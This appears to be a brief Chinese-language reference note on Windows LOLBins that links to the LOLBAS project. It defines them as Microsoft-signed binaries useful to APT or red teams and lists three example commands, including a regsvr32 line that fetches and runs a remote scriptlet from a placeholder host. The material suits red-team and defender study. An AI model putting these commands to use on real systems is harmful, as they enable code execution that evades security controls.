 	https://lolbas-project.github.io/
	LOLBin/Lib/脚本
	必须是 Microsoft 签名的文件，可以是操作系统的本机文件，也可以是从 Microsoft 下载的文件。
	具有对 APT 或红队有用的功能
	>wmic.exe process call create calc
	>regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
	>Microsoft.Workflow.Compiler.exe tests.xml results.xml